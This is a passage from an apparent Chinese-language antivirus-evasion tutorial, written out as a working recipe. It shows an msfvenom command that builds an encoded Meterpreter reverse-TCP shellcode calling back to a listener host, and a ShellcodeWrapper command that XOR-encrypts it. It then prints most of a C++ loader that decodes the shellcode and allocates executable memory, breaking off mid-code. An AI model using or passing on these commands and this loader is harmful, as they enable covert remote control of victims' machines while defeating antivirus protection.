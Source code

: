 需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```
![616641780f9e39cdae5a13da8dd5805e](images/2020.03-bypass-03/24.png)

生成了三个文件，一个为C++源码，也是下面要用到的，一个为C#源码，可以使用csc.exe进行加载，还有一个py文件，可直接执行也可以编译成py-exe执行。

其中`encryptedShellcodeWrapper_xor.cpp`文件中的C++源码如下
```
/*
Author: Arno0x0x, Twitter: @Arno0x0x
*/

#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char **argv) {

	// Encrypted shellcode and cipher key obtained from shellcode_encoder.py
	char encryptedShellcode[] = "";
	char key[] = "tidesec";
	char cipherType[] = "xor";

	// Char array to host the deciphered shellcode
	char shellcode[sizeof encryptedShellcode];


	// XOR decoding stub using the key defined above must be the same as the encoding key
	int j = 0;
	for (int i = 0; i < sizeof encryptedShellcode; i++) {
		if (j == sizeof key - 1) j = 0;

		shellcode[i] = encryptedShellcode[i] ^ key[j];
		j++;
	}

	// Allocating memory with EXECUTE writes
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```
